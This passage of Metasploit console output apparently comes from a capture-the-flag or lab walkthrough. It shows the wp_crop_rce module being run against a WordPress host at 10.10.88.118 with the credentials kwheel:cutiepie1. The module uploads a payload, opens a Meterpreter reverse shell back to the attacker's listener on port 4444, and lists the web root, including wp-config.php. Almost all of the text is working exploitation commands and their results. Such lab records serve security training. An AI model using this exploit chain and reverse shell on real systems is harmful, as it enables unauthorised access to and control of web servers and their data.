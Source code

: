 ```
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf5 exploit(multi/http/wp_crop_rce) > set rhosts 10.10.88.118
rhosts => 10.10.88.118
msf5 exploit(multi/http/wp_crop_rce) > set lhost tun0
lhost => tun0
msf5 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 10.11.8.219:4444
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (38288 bytes) to 10.10.88.118
[*] Meterpreter session 1 opened (10.11.8.219:4444 -> 10.10.88.118:37830) at 2020-10-06 21:09:53 +0100
[*] Attempting to clean up files...

meterpreter > ls
Listing: /var/www/wordpress
===========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100640/rw-r-----  235    fil   2020-05-28 13:15:42 +0100  .htaccess
100640/rw-r-----  235    fil   2020-05-28 04:44:26 +0100  .htaccess_backup
100644/rw-r--r--  1112   fil   2020-10-06 21:09:52 +0100  bNrODQuydU.php
100640/rw-r-----  418    fil   2013-09-25 01:18:11 +0100  index.php
100640/rw-r-----  19935  fil   2020-05-26 16:39:37 +0100  license.txt
100640/rw-r-----  7415   fil   2020-05-26 16:39:37 +0100  readme.html
100640/rw-r-----  5458   fil   2020-05-26 16:39:37 +0100  wp-activate.php
40750/rwxr-x---   4096   dir   2018-12-06 18:00:07 +0000  wp-admin
100640/rw-r-----  364    fil   2015-12-19 11:20:28 +0000  wp-blog-header.php
100640/rw-r-----  1889   fil   2018-05-02 23:11:25 +0100  wp-comments-post.php
100640/rw-r-----  2853   fil   2015-12-16 09:58:26 +0000  wp-config-sample.php
100640/rw-r-----  3279   fil   2020-05-28 04:49:17 +0100  wp-config.php
40750/rwxr-x---   4096   dir   2020-05-26 04:52:32 +0100  wp-content
100640/rw-r-----  3669   fil   2017-08-20 05:37:45 +0100  wp-cron.php
40750/rwxr-x---   12288  dir   2018-12-06 18:00:08 +0000  wp-includes
100640/rw-r-----  2422   fil   2016-11-21 02:46:30 +0000  wp-links-opml.php
100640/rw-r-----  3306   fil   2017-08-22 12:52:48 +0100  wp-load.php
100640/rw-r-----  37286  fil   2020-05-26 16:39:37 +0100  wp-login.php
100640/rw-r-----  8048   fil   2017-01-11 05:13:43 +0000  wp-mail.php
100640/rw-r-----  17421  fil   2018-10-23 08:04:39 +0100  wp-settings.php
100640/rw-r-----  30091  fil   2018-04-30 00:10:26 +0100  wp-signup.php
100640/rw-r-----  4620   fil   2017-10-23 23:12:51 +0100  wp-trackback.php
100640/rw-r-----  3065   fil   2016-08-31 17:31:29 +0100  xmlrpc.php

meterpreter >
```
